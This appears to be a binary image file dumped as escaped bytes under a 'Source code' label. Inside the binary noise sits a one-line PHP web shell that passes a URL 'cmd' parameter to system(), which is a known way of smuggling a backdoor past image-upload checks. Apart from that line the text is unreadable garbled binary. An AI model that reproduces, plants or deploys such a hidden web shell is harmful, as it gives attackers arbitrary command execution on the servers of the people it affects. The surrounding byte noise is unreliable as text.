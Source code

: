 ```
<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD>^X~~~<FE><EF><^@^@ <89>'%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA   ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4cH)<FD><DF>y^@^@@^ROJo#<98><E3>^N<D4>+ܡ<A7>zEP^B^@4<83><A0>^D^@h^FA  ^@<D0>^L<82>^R^@<A0>^Y<C3><FF><9D><81>^?M<8A>AQN<DE><D9><FF><9D><95><8D><BB><F3><D5>j<B9><FF>^U)^FŇs<D5>&3<93>{<F3>ڿ}<EF>RT<88>I漦S^_<E6><D3>J^^<8D><FA>ђ;<EB>J=IQ!J<CE>;5<F7>O<DB>L<D6>^<AE><FE>9<E6><8E><F7>><A5><A8><94><92>Bl<A7>S<B0><CD>gRJI)&^EY<9B><F5><F7>˵T<AF>^HJ<F8>#<CC>hh<EE><97>{<AE><FB><EB>l<E6>K<8F>7*<A6><E5><A9><E5><FF><B3>ϧ<C9>LR<8A><8A>1)<C6>(<EF><98>9hG[<F5><8A><A0><F4>^W<A4>^T<95>b<D2><FC><94>l&w<E8><99>$Ř6<EF>^S<98><B9><F9><D1>y<FD><98>^]C<90><EC>^O<F4>^RTLIs<92>fr<E6><B4>^_aI1^_<B7><E4>ݔBTZ<E5>a?^D4<FF>٤<98><A2><96><D3><DD>_^_^N<F8>^Ff&<9D><BD><8B>Ry<8F><AB><CE>;<E9>M<BF><96>I'<E7><F2><90>_Lj x♗<EA>ծ~,m@i<DB><F2><81><F9>8˝<93><B9>]pn^^ڥ<BB>r<B7><D2>;<CC><FF> <F3>^?<96><92>b<88>Z<DF><EA>^X<F2>^M<9A><8E>q<CE><E6>1{I<AB>q{<93><F3><FE><8F>^D<A4>^P<93><92>V<F9>RR
<U+070F>1Ǡ<98>R        &NΤ^X*_<C4>+^Uל<97><F7>^<CE>L)ŋ1l<FC>Q<B5><F7><B8><F6><BC>]<9D>}K<E9><91><F7><F4>2'v^<A9>^_)*&<93>y/<EF><A7><FA><97><DB>D<B3>U<BB>^P<A3>b9<85><A0>t<B3><94><96><A7>^C<B3><F5><C4>᪗1<F5>!<9C><9B><8F>Y^G<81>ESCr5^GJ<BF>ɗ<DB>5^X<B9>G<AB>M<FE><9D><BC>Se
<E3>d<9B><B1>js4HwHS<C7>g^Z&<CB><FF><B7><F2>^^^_=><AF><FC><E6>G<98>y<EC><C5>y<BD>z<B5>~<D8><FC><EF>>?%<E5><B6>O<AB><A7><F5><F9><EF>˩^L<DF><DD><EC>l^B1<F7>^V<8F><FF><B8>S<CA>Cb<B6>9<EE>Ƽ^]<C6>pr<E5>K))<AD>^Z<8F><C3>q%<FF>O<9B><A7><9B><F3><FF>}R^^<BA>=<F3>`x<AD><F6>^^<AF>
<D3>xv<9E>><BD><AB>9*~<FE>;<F8>C^<A9>W/֏Gm<C0>ŭ'(<DD>.<AF>:ʍ<C0><D6>z"<D8>9˓<C0>!h<9E>x<B4>m^O<E5><CF>e)<E7><E5><E9>O<D7>^^<87><BF>d<DD><EB><CC>R<DC><CE><ED>-^?<F1>潛<EA>i^Lz<D0>L}X'<CA>^H^AK<C3>ESC<F2>z<BD><FA><AC>~<9C>^G<AA><A9>}$(<DD>,/^R<C8><C3>Xn<B5>

<?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>

^P<DB>zU^?<AD><CC>9<B9>^X^T<C6>Q<C9>畀S9<DC><C9><D2>s|<97>^^B<92>DPzۡ<E7>aN~P<FE><F6>]^Y<CE>1<9B>ު_^]<E6><BD>^F<8B>
!hYI<BD>^^<9A>)O4<FB><86>}z<CF>H<B9>7~<E4>48<AF>iY<B6>,<96><CF>Ѽ<90><86><96><B9><92>u<C2>q<FE>^Q'_&̟<97><E3><81><EA>r<D4><E7>e<F3>ë^@Ys<EE>'i<BC>*<95><A1><DC>+<9B>z<F5>µ<9A><EA><9F>B\<F2>o&<EF><BD>:j<8F>p<93><9E><9E><94><EC>ׯ_́^B^@<9A><D0>G<E8>lPO<AB>Y<D0>^O<EA>^U<EE><D0>S
<BD>"(<BD><A9><97>Ga<F4><85>z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>zEPzSO=^O<F4><83>z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>ze<C3>0<B0><FA>^N^@Є<A1><A7><C7>:^@<C0><BF><8D><88><F4><A6><9E>^^<87><D1>^O<EA>^U<EE><D0>S<BD>"(<BD><89>'L܁z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>zEPzSO=^O<F4><83>z<85>;<F4>T<AF><F8> <EB><9B><CE>>p<98>R<FE>^X<E6><F4>1g3'wض:^?<BD>9<84><D5>Fxfr<EE><FC>C<A6>1<FC>VH^ü#mP<88>qٻɜ<BC>sr<BB>sO<8F><F3><EE>t/<9F>}^Z<B9>,Aa,<DB>[<FC>^L'<BD><97><D7><CA>q8<BB><B2>^\uy<B9>H<E7><C5>s<F3><D7><C0><93><E4>^F<FD>T<EC><EB>Qw<CF><EB><CB>{Z<AF><AA><AF>U<FE><98>lX2S}?<F0>o<EB>郬^D<A5>7^]n<F0><D4><F8><99><93><F7><F9>K<DC>1D<85>QҰ4R)^D<8D>1<C9>Jca))Ơ<98>^O<DC>5 <F9>k<DE><DB><ED>^S<CA>^F~~<D9>^^#<84><A4>d<EB>mESC<96><E3><B6>yI<D2>0<9C>^D<C9><F5>n<A8><BB><86><ED><81><D7>ʱ;<B7><B2>^\<B5>yy<90><CA><EB>禜<87><FA><E3>+<EF>yuy<8F><F5><EA><A5>k5<E6><CD>^@<AD><EC><E9><95>b<C8>_^Lߥ<81><EF><D3>K@<92>^X<BE>{<DB>v<8C>v<DA>f<DC><C9>^O~<B5>^E<B9><93>)<AE><F6><C1>){☟<9F>Z<CC><E5>sL:<EE><97>S<B6>^U775xy<93><B8>a<F0><A5><A7><EC>5^L<BE><EC><B5>3<E5><A7><EC><C1>c<F9><EF>
<B6>yI<C7>Fz<93><86><A4>yS<B9>a<B3>k<EA><EE><A4><D7>ʱ?<B7><AA>^\<B5>yy<E0><E5>ssPM<BA><DA>^Kj_<8E><CA>{^[^<9D>ի<BA>s<E7><ED>ٽ<D7><E0><9D><9C><9B><B6>MI<F3>.<B9><F8>^<CC>)}<81>m<CF>#o-.<E7><B6>^W<B4>lI<9E><CA>^V䛿z<F2>gi:o<D9>I<D4>|^N^B<DB>]Χ<9D>d<97>_<CA><C7>ك<E3><B6>9٧
<91><F7><E5><B9>~<D2>y<B5>^\<87>s<AA><CA>Q<9F><97>^TG<FD><FE><FD>[a<FD><EF><EE><C5>r(<C5>^R<C4><CE>7<C4>;<A6>Q^?ϫ˫c<8F><B6><EE>ܤ<94>3<B3>^]<D2>3<A7><E1><E7>G^C<C3>w_<8F>'<A5>/<B0><E9>y<94>^F<C8>^N<F3>5e<9B><D1>4ͻ<98><9C><B7><<EC>^SK<A3><95>r<8F>{<DA>!t<99>w8<B5><D2>ESC
<DF>OV<94><DF>Y<A2>J><AC>vǝ<A5><A1><B9>Q<BD><F6>J9Nέ*Gm^<96><DF><DD><EE><A6><F8>ʹI!D<C9><FC><E9><9C><D6>i^Z<AF><DC><F3><DA><F2>jߣ<AD>=<B7>lC^?<B9><E3>/<BE>YOOJ<CC>)<BD>i<D3><F0>N<F3><CA>'<C7><D9><FA>^X<93><CC>y
^Z<C3>8<EF>P;<ED>^V<BB>^]f<CA>=q<DB>?<F1>hwL^Yr:^?"(<8D>Uzt\M^Z<E7><EA><CB>Q<E3>Y9<9E><E5>e<D0><CF>^Gݫ^T<83>b2<F9>2<C4>Y<95><C6>^K<F7><FC>$Ň<E5>}ޣ=9w<B5>!n^L<A3><E2><D4>QP<C5>N<C0><F8>
==)^Q<94>޴]<CD>r5f<BF>_^U^W5<86><BC>@<C0>m^V^H<EC>&<A4>SR<92><9D><AE><96><9B><D2>L!ϛ<D8><C9>j<AF><9C>Vȓ<E4>R^Y<CE><DA>^]<F7>4<8D>Ǫ<CB><F1><FC><97><9E><96><E3>Veq<83><F9><FD>^B<90><A7>'^<FC><DD><D5>^O]<97><F7>z<95><D4><F5><B9>)^F<85><B2><CA>r<FA>s^L<A3><92>^F<86><F0><BE>^\<AB><EF><BE><C0><F6>^F<E7><85>^H<E7><D6><DD><E5><A8>X<86><89><E6>y^B+=<DE>ߣb<88>r<F3><D2><EF>(<E9><D1>^PTR^Lci<9C>^^78f^ާ||̫<EF>Ҫ<E7>|<9D>ƕ<FA>r\<AB>+<C7>}<F2>
```